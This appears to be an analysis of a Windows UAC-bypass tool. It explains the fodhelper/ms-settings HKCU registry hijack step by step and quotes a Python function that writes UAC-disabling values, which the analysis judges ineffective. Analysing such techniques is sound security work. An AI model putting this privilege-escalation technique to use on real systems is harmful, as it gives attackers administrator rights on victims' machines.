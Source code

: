 **How It Works:**

```
1. Attacker writes to HKCU (✅ allowed, no admin)
   Example: HKCU\Software\Classes\ms-settings\Shell\Open\command = "malware.exe"

2. Attacker launches auto-elevated process
   Example: fodhelper.exe (auto-elevates to admin)

3. Auto-elevated process checks registry
   Windows looks in: HKCU first, then HKLM
   Finds: HKCU\Software\Classes\ms-settings\Shell\Open\command

4. Executes malware with ADMIN privileges!
   fodhelper.exe runs malware.exe as admin
```

**Key Point:** 
- ✅ Can write to HKCU without admin
- ❌ Cannot write to HKLM without admin
- 💡 But the **hijacked process** runs as admin and can then write to HKLM

---

### **Method Category 2: HKCU "Fake" Auto-Elevation** ⚠️

**Function:** `elevate_via_registry_auto_approve()` (Line 2085)

**Code:**
```python
def elevate_via_registry_auto_approve():
    """Automatically approve UAC prompts via registry modification."""
    
    # Set UAC to auto-approve for current user (no prompt)
    reg_path = r"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
    
    # Try to set in HKCU first (doesn't need admin)
    try:
        key = winreg.CreateKey(winreg.HKEY_CURRENT_USER, reg_path)
        winreg.SetValueEx(key, "EnableLUA", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 0, winreg.REG_DWORD, 0)
        winreg.CloseKey(key)
        log_message("[REGISTRY] Auto-approve set in HKCU")
        return True
    except Exception:
        pass
```

**Registry Keys:**
- ✅ Writes to: `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`
- ❌ Does NOT write to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`

**Does It Work?** ❌ **NO - This is MISLEADING!**

**Why It Doesn't Work:**
- UAC reads settings from **HKLM**, not HKCU
- HKCU values for UAC are **ignored** by Windows
- This method is **ineffective** - it's likely just there to confuse or as a failed attempt
